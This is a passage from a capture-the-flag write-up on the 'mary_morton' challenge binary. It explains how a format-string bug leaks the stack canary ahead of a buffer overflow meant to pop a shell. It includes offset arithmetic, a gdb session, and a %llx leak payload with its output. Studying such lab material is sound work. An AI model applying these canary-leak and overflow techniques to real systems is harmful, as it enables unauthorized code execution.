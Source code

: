 ```
                             overflowBug                                     XREF[3]:     menu:004008a7(c), 00400bc0, 
                                                                                          00400cc0(*)  
        00400960 55              PUSH       RBP
```
So we can see that `input` is at offset `-0x98`, and that `canary` is at offset `-0x10`. That gives us `0x98 - 0x10 = 0x88` byte offset. Since we can scan in `0x100` bytes this is is a buffer overflow bug. Also after it scans in the input, it prints the data you scanned in. So we should be able to use the buffer overflow vulnerability to pop a shell. However our first hurdle will be to defeat the stack canary.

## Exploitation

In order to reach the return address to gain code flow execution, we will have to write over the stack canary. Before we do that, we will need to leak the stack canary, so we can write over the stack canary with itself. That way when the stack canary is checked, everything will check out. We should be able to accomplish this using the format string exploit to leak an address. Also as a sidenote we could probably use the buffer overflow function to leak the stack canary, by overflowing up right up to the stack canary. Then when it prints out the input it leaks the stack canary. However the issue with that is that we would need to overwrite the null byte of the stack canary, and it would check the canary before we had a chance to correct it. So I went for using the format string bug to leak the canary. We can find the offset for the format string to the stack canary using gdb.

First set a breakpoint for the stack canary check in the `format_string_vuln` function, then run that function, then leak a bunch of 8 byte hex strings:
```
gef➤  b *0x40094a
Breakpoint 1 at 0x40094a
gef➤  r
Starting program: /Hackery/pod/modules/ret_2_system/asis17_marymorton/mary_morton 
Welcome to the battle ! 
[Great Fairy] level pwned 
Select your weapon 
1. Stack Bufferoverflow Bug 
2. Format String Bug 
3. Exit the battle 
2
%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.
7fffffffdda0.7f.7ffff7af4081.0.0.6c6c252e786c6c25.252e786c6c252e78.786c6c252e786c6c.6c252e786c6c252e.2e786c6c252e786c.6c6c252e786c6c25.252e786c6c252e78.786c6c252e786c6c.6c252e786c6c252e.2e786c6c252e786c.6c6c252e786c6c25.252e786c6c252e78.786c6c252e786c6c.6c252e786c6c252e.2e786c6c252e786c.6c252e786c6c25.0.217c6cddb9f90f00.7fffffffde70.4008b8.[ Legend: Modified register | Code | Heap | Stack | String ]
```

So a stack canary for 64 bit systems is an 8 byte hex string that ends in a null byte. Looking through the output, we can see such a hex string at offset 23 with `217c6cddb9f90f00`. We can confirm that this is the stack canary once we reach the breakpoint by examining the value of `rbp-0x8`, since from the source code we can see  that is where the canary is:
